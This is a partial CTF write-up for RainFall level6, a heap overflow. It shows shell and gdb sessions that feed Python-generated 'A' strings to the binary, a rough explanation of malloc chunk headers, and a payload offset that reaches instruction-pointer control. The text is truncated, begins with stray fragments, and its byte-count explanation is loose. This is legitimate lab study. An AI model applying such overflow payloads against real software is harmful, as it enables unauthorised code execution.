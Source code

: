```c
}
```

### Walktrough

#### Malloc exploitation

- [Heap execution exploitation](https://www.win.tue.nl/~aeb/linux/hh/hh.html#toc11.1)

```bash
level6@RainFall:~$ ./level6
Segmentation fault (core dumped)

level6@RainFall:~$ ./level6 a
Nope
```

- As we can see the program segfaults when no arguments are passed we can know it uses argv[1]

```bash
level6@RainFall:~$ ./level6  $(python -c 'print "A"*71')
Nope

level6@RainFall:~$ ./level6  $(python -c 'print "A"*72')
Segmentation fault (core dumped)

(gdb) run  $(python -c 'print "A"*72')
Starting program: /home/user/level6/level6 $(python -c 'print "A"*72')

Program received signal SIGSEGV, Segmentation fault.
0x08048408 in __do_global_dtors_aux ()
```

- As we can see the program segfault when we start to pass more than 71 bytes

In fact, what we're doing here is simple:

Malloc uses a structure to store our allocations informations, for an allocated chunk, we use 4 bytes, 3 for the size aligned to 8, and the last one for the status which tells if a chunk is free or not.

Even if we only use 4 bytes, the whole structure will take 8 bytes to be sure to align correctly with memory pages.

![](https://www.win.tue.nl/~aeb/linux/hh/malloc.png)

So in our case we write a total of 76 bytes:

- 64 for our first malloc() call

- 4 to overwrite the chunk informations

- 4 other to overwrite the rest of the malloc structure

- 4 to fill the 2nd malloc() call, which is executed

```bash
(gdb) run $(python -c 'print "A"*76')
The program being debugged has been started already.
Start it from the beginning? (y or n) y
Starting program: /home/user/level6/level6 $(python -c 'print "A"*76')

Program received signal SIGSEGV, Segmentation fault.
0x41414141 in ?? ()
---

level6@RainFall:~$ gdb ./level6
gdb$ run $(python -c 'print "A"*72+"B"*4')
Starting program: /home/user/level6/level6 $(python -c 'print "A"*72+"B"*4')

```